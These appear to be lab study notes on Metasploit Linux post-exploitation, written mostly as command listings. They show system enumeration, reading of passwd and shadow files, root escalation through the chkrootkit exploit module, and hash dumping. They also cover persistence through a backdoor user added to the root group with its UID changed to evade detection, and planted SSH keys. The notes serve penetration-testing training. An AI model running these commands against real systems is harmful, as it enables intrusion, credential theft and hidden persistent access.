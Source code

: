 # b - Linux Post Exploitation

## <mark style="color:red;">Linux Post Exploitation Modules</mark>

* The MSF provides us with various post exploitation modules for both Windows and Linux.
* We can utilize these post exploitation modules to enumerate information about the Linux system we currently have access to:
  * Enumerate system configuration.
  * Enumerate environment variables.
  * Enumerate network configuration.
  * VM check.
  * Enumerate user history

### **Practical Demonstration**

```bash
# we exploit the Samba (exploit/linux/samba/is_known_pipename) vuln to get initial access.
session -u 1 # we upgrade the session from cmd shell to meterpreter session.

# we can do some basic enumeration on the victim OS, using the native "shell" cmd, then "/bin/bash -i"
whoami
shell > cat /etc/passwd #Enumerate all of the users on the target system.
shell > groups root # Enumerate all of the users that are part of the root group
shell > cat /etc/*issue # Enumerate the distribution release version
shell > uname -r #Enumerate the kernel version
shell > uname -a #Enumerate information about the target system (OS, system name, architecture)
shell > ip a s # Enumerate every network interface
shell > netstat -antp  # list all services listening on open ports.
shell > ps aux  # Enumerate every system processes
shell > env # Enumerate every environment variables for the current user

#  some linux post exploitations modules
msf5 > use post/linux/gather/enum_configs #Gather all configurations files.
msf5 > use post/multi/gather/env #Print out the OS environment variables
msf5 > use post/linux/gather/enum_network #Gather network information from the target system
msf5 > use post/linux/gather/enum_protections #Check if the system has been hardened and how
msf5 > use post/linux/gather/enum_system #Gather system and user informations.
msf5 > use post/linux/gather/checkcontainer #Check if the system is running inside a container
msf5 > use post/linux/gather/checkvm #Check if the system is running inside a VM
msf5 > use post/linux/gather/enum_users_history #Gathers users history informations
```



## <mark style="color:red;">Linux Privilege Escalation: Exploiting A Vulnerable Program</mark>

* The privilege escalation techniques we can utilize will depend on the version of the Linux kernel running on the target system as well as the distribution release version.
* MSF offers very little in regards to Linux kernel exploit modules, however, in some cases, there may be an exploit module that can be utilized to exploit a vulnerable service or program in order to elevate our privileges.

### **Practical Demonstration**

```bash
# for initial access we use the "auxiliary/scanner/ssh/ssh_login" module. providing the Username $ passwd provided by the LAB.

# upgrade to a meterpreter session.
# we want to upgrade our access to "root" user.
#Using the [ps aux] command, we can see a /bin/check-down script launched by root
#By looking into it, we see that it runs chkrootkit every 60sec (Used to detect rootkits on the system)
chkrootkit --help # Open the help page for chkrootkit
chkrootkit -V # Return the version of chkrootkit

# search chkrootkit
msf5 > use exploit/unix/local/chkrootkit # Exploit the chkrootkit service.
set CHKROOTKIT /bin/chkrootkit
set SESSIONS 2
set LHOST $kaliIP
exploit # we have root.
```



## <mark style="color:red;">Dumping Hashes With Hashdump</mark>

* We can dump Linux user hashes with the hashdump post exploitation module.
* Linux password hashes are stored in the /etc/shadow file and can only be accessed by the root user or a user with root privileges.
* The hashdump module can be used to dump the user account hashes from the /etc/shadow file and can also be used to unshadow the hashes for password cracking with John The Ripper.

### **Practical Demonstration**

```bash
# we use the "exploit/samba/is_known_pipename" module to gain initial access.
# upgrade session to meterpreter.
# hashdump gives us error, so we have to load the module mannually.

search hashdump
msf5 > use post/linux/gather/hashdump #Dump the password hashes on Linux.
# when we cat the shadow and etc/passwd file contents from the [loot] db, we see the users including "root" has no password.

```



## <mark style="color:red;">Establishing Persistence On Linux</mark>

* Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access.
* Gaining an initial foothold is not enough, you need to setup and maintain persistent access to your targets.
* The persistence techniques we can utilize will depend on the target configuration.
* We can utilize carious post exploitation persistence modules to ensure that we always have access to the target system.

### **Practical Demonstration**

```bash
# we use the same method as previous lab

# method 1
# Creating a backdoor user manually
shell > useradd -m <homeFolderLocation> <username> -s <shellLocation> #Create a user account
shell > passwd <username> #Set/change a password for the user
shell > usermod -aG <group> <username> #Add a user account to a group
shell > usermod -u <newID> <username> #Change the ID of a user account
# example
useradd -m ftp -s /bin/bash
passwd ftp # set password for the user.
usermod -aG root ftp # add the user to the root group.
usermod -u 115 ftp # modify the user ID to avoid detection.
# we can use the acct to authenticate via ssh.

# there are plenty of other techniques like: creating a persistence service, cronjob, adding an sshkey to the ssh dir within the user home directry.

# There are many MSF modules to establish persistence. List them with:

msf5 > search platform:linux persistence
# this module creates a public and private keypair, and will add the public key,
# into the home dir of all the users accts on the system, and would then provide,
# us with the private key which we can use to authenticate to any of the user acct,
# on the system without providing a password.
msf5 > use post.linux/manage/sshkey_persistence #This module allow to enable persistence using SSH
set CREATESSHFOLDER true # incase the victim does not have the folder created already.
set SESSION <ID>
exploit 

# we can cat the private key, save into a file, change the permissions to "chmod 0400 ssh_key"
# we can authenticat to the target via any user via ssh
ssh -i ssh_key root@$victim_IP  # using ssh key authentication to login ssh.
```



